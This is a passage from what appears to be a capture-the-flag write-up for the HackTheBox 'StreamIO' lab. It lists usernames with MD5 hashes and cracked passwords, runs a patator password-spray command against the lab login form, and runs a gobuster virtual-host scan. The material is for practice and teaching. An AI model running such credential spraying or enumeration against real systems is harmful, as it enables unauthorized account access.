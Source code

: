 ```txt
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Lucifer:7df45a9e3de3863807c026ba48e55fb3
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Oliver:fd78db29173a5cf701bd69027cb9bf6b
Robert:f03b910e2bd0313a23fdd7575f34a694
Robin:dc332fb5576e9631c9dae83f194f8e70
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Samantha:083ffae904143c4796e464dac33c1f7d
Stan:384463526d288edcc95fc3701e523bc7
tgihf:6f1ed002ab5595859014ebf0951522d9:blah
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Theodore:925e5408ecb67aea449373d668b7359e
Victor:bf55e15b119860a6e6b5a164377da719
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
William:d62be0dc82071bccc1322d64ec5b6c51
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```

Spray passwords against login form.

```bash
$ patator http_fuzz method=POST url=https://streamio.htb/login.php body='username=COMBO00&password=COMBO01' 0=creds.txt -x ignore:fgrep='Login failed'
13:14:33 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.8 at 2022-11-20 13:14 EST
13:14:33 patator    INFO -
13:14:33 patator    INFO - code size:clen       time | candidate                          |   num | mesg
13:14:33 patator    INFO - -----------------------------------------------------------------------------
13:14:34 patator    INFO - 302  4537:4145      0.030 | yoshihide:66boysandgirls..         |    13 | HTTP/2 302
13:14:34 patator    INFO - Hits/Done/Skip/Fail/Size: 1/13/0/0/13, Avg: 21 r/s, Time: 0h 0m 0s
```

The credential `yoshihide:66boysandgirls..` works. Visit `/admin/` once authenticated.



### Virtual Host Discovery

```bash
$ gobuster vhost -k -u https://watch.streamio.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          https://watch.streamio.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/19 17:51:40 Starting gobuster in VHOST enumeration mode
===============================================================

===============================================================
2022/11/19 17:52:42 Finished
===============================================================
```